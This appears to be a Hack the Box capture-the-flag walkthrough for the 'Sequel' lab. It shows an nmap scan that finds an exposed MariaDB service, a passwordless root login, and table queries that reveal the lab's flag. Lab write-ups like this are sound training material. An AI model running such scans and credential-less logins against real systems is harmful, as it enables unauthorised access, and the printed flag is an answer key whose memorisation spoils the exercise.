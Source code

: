 Hack the Box
Starting Point

Sequel

10.129.95.232

nmap -sV -sC --min-rate 1000 --max-retries 2 -oN nmap/sequel 10.129.95.232

Starting Nmap 7.80 ( https://nmap.org ) at 2023-06-18 22:27 Americas
Nmap scan report for 10.129.95.232
Host is up (0.13s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 67
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, ConnectWithDatabase, SupportsTransactions, DontAllowDatabaseTableColumn, IgnoreSigpipes, SupportsCompression, FoundRows, LongColumnFlag, ODBCClient, Speaks41ProtocolNew, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, InteractiveClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: $#$*GfK&wKO+&}gliIos
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 184.91 seconds



mysql -h 10.129.95.232 -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 70
Server version: 5.5.5-10.3.27-MariaDB-0+deb10u1 Debian 10


mysql> SHOW databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.14 sec)

mysql> SELECT * FROM htb;
ERROR 1046 (3D000): No database selected
mysql> USE htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SHOW tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.14 sec)

mysql> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.14 sec)

mysql> 

flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8
